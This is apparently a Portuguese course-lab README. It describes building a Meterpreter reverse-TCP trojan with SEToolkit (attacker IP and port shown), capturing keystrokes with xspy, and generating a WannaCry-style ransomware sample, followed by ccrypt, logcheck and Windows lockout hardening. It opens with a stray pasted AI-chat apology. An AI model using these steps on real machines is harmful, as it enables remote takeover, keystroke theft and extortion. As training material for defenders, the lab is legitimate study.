






Peço desculpas. Refinei o conteúdo para ser **estritamente fiel** ao que consta no `modulo 2.pdf`, removendo qualquer ferramenta ou comando que não esteja explicitamente no texto, mantendo o padrão visual solicitado.

---

# Exploração de Vulnerabilidades e Hardening

Este repositório documenta a execução de atividades laboratoriais focadas na criação de artefatos maliciosos (Trojan, Keylogger, Ransomware) e na implementação de controles técnicos e políticas de endurecimento (Hardening) em sistemas Linux e Windows.

## 📊 Gestão do Projeto

| Projeto | Objetivo | Status |
| --- | --- | --- |
| **Criação de Trojan (RAT)** | Gerar um executável malicioso para controle remoto via SEToolkit. | ✅ Concluído |
| **Captura de Teclado** | Utilizar o `xspy` para monitorar entradas de texto no Linux. | ✅ Concluído |
| **Geração de Ransomware** | Simular a criação de um malware do tipo WannaCry. | ✅ Concluído |
| **Criptografia e Auditoria** | Implementar confidencialidade com `ccrypt` e análise com `logcheck`. | ✅ Concluído |
| **Hardening de Windows** | Configurar Políticas de Bloqueio de Conta e Opções de Segurança. | ✅ Concluído |

---

## 🏗️ 1. Exploração: Criação de um Trojan (RAT)

O objetivo desta atividade foi explorar o **Social-Engineer Toolkit (SET)** para criar um cavalo de troia capaz de controlar uma máquina Windows na mesma rede local.

### 1.1 Vetor de Ataque: SEToolkit

* **Ferramenta:** SEToolkit (Kali Linux).
* **Procedimento:**
1. Execução como superusuário: `sudo -i` e comando `setoolkit`.
2. Opção **1) Social-Engineering Attacks**.
3. Opção **4) Create a Payload and Listener**.
4. Opção **5) Windows Meterpreter Reverse TCP X64**.
5. Configuração do **IP (LHOST)**: `192.168.98.XX'**Porta (LPORT)**: `7777`.

### 1.2 O Ouvinte (Listener)

* **Ação:** O SET gera o arquivo `payload.exe` (armazenado em `/root/.set/`) e inicia automaticamente o *Handler* do Metasploit para aguardar a conexão reversa após a confirmação do usuário,não implementarementado neste laboratório.
Porém foi feita a analise no site Kaspersky Threat Intelligence Portal, com seguinte resultado.




## 🔍 2. Monitoramento e Malware

### 2.1 Keylogger XSPY

Uso da ferramenta para capturar teclas digitadas no ambiente gráfico do Linux.

```bash
cd /home/aluno/Documentos
xspy >> teste.log
# Após digitar no editor de texto, encerra-se com Ctrl+C
cat teste.log

```



### 2.2 Ransomware (Simulação WannaCry)

Geração de um artefato malicioso para estudo de comportamento de Ransomwares.

```bash
cd /curso/Ransomware
python3 Ransomware
# Seleção da opção 14 (WannaCry)
# Resultado: Arquivo .exe "sdcard" gerado na raiz (/) com senha "infected"

```


## 🛡️ 3. Controles Técnicos e Hardening

Implementação de defesas para mitigar os ataques simulados anteriormente.

### 3.1 Criptografia com Ccrypt

Garantia de confidencialidade através da cifragem de arquivos.

```bash
# Criptografar arquivo
ccrypt -e mensagem.txt
# Descriptografar arquivo
ccrypt -d mensagem.txt.cpt

```


### 3.2 Auditoria com Logcheck

Identificação de anomalias nos logs do sistema Linux.

```bash
sudo -u logcheck logcheck -o -t

```


### 3.3 Hardening no Windows Server (secpol.msc)

Configuração de políticas de segurança para proteção contra acessos indevidos:

* **Política de Bloqueio de Conta:**
* *Account lockout threshold*: Define o número de tentativas falhas antes do bloqueio.
* *Account lockout duration*: Tempo que a conta permanece bloqueada.
* *Reset account lockout counter after*: Tempo para redefinir o contador de falhas.




*
## ⚙️ Tecnologias & Ferramentas

* **Atacante:** Kali Linux
* **Alvo/Hardening:** Windows Server 2022
* **Segurança:** SEToolkit, xspy, Ccrypt, Logcheck, GPO/Local Security Policy.


*Este projeto foi realizado para fins educacionais e demonstra competências em ferramentas de segurança no ecossistema Linux.
